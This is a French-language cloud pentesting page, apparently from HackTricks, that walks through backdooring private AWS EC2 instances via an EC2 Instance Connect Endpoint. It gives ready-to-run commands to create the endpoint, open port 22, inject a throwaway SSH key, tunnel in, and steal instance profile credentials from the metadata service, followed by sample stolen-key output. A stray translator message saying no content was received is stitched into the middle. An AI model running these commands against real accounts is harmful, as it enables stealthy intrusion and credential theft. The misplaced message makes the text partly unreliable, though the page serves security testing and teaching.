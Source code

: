 # AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

{{#include ../../../../banners/hacktricks-training.md}}

Abuser EC2 Instance Connect Endpoint (EIC Endpoint) pour obtenir un accès SSH entrant vers des instances EC2 privées (sans IP publique/bastion) en :
- Créer un EIC Endpoint dans le subnet cible
- Autoriser SSH entrant sur le SG cible depuis le SG de l'EIC Endpoint
- Injection d'une clé publique SSH éphémère (valide ~60 secondes) avec `ec2-instance-connect:SendSSHPublicKey`
- Ouvrir un tunnel EIC et pivoting vers l'instance pour voler les credentials de l'instance profile depuis IMDS

Impact : chemin d'accès distant furtif vers des instances EC2 privées qui contourne les bastions et les restrictions d'IP publique. L'attaquant peut assumer l'instance profile et opérer dans le compte.

## Exigences
- Permissions pour :
- `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
- `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Instance Linux cible avec serveur SSH et EC2 Instance Connect activé (Amazon Linux 2 ou Ubuntu 20.04+). Utilisateurs par défaut : `ec2-user` (AL2) ou `ubuntu` (Ubuntu).

## Variables
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```
## Créer un point de terminaison EIC
```bash
aws ec2 create-instance-connect-endpoint \
--subnet-id "$SUBNET_ID" \
--security-group-ids "$ENDPOINT_SG_ID" \
--tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
--region "$REGION" \
--query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
aws ec2 describe-instance-connect-endpoints \
--instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
--query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
grep -q 'create-complete' EIC_STATE && break
sleep 5
done
```
## Autoriser le trafic de l'EIC Endpoint vers l'instance cible
```bash
aws ec2 authorize-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```
## Injecter une clé SSH éphémère et ouvrir un tunnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--instance-os-user "$OS_USER" \
--ssh-public-key file:///tmp/eic.pub \
--region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
--instance-id "$INSTANCE_ID" \
--instance-connect-endpoint-id "$(cat EIC_ID)" \
--local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```
## Preuve de Post-exploitation (steal instance profile credentials)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```
Je n'ai pas reçu le contenu à traduire. Veuillez coller le texte du fichier src/pentesting-cloud/aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ec2-instance-connect-endpoint-backdoor.md ici.
```json
{
"Code": "Success",
"AccessKeyId": "ASIA...",
"SecretAccessKey": "w0G...",
"Token": "IQoJ...",
"Expiration": "2025-10-08T04:09:52Z"
}
```
Utilisez les creds volés localement pour vérifier l'identité :
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```
## Nettoyage
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
--instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```
> Remarques
> - La clé SSH injectée n'est valide qu'environ ~60 secondes ; envoyez la clé juste avant d'ouvrir le tunnel/SSH.
> - `OS_USER` doit correspondre à l'AMI (par ex., `ubuntu` pour Ubuntu, `ec2-user` pour Amazon Linux 2).
